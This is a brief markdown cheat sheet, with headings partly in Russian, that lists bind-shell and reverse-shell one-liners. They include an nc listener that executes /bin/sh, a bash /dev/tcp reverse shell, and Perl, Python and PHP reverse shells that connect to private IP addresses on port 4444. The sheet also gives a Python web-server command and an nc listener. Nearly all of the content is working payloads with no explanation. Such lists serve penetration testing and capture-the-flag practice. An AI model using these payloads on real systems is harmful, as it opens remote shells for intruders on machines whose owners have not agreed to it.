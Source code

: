 #Bind Shell

##Nc
`nc -lvp 4444 -e /bin/sh`

##Web-сервер
`python3 -m http.server`

##Подключение
`nc 192.168.1.135 4444`

#Reverse Shell

##Tcp Linux
`bash -i >& /dev/tcp/172.15.9.212/4444 0>&1`

##Nc

`nc 10.0.2.15 4444 -e /bin/bash`

##Perl

`perl -e 'use Socket;$i="192.168.1.135";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

##Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.135",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


##Php
`php -r '$sock=fsockopen("192.168.1.135",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

##Создание сервера
`nc -lvp 4444`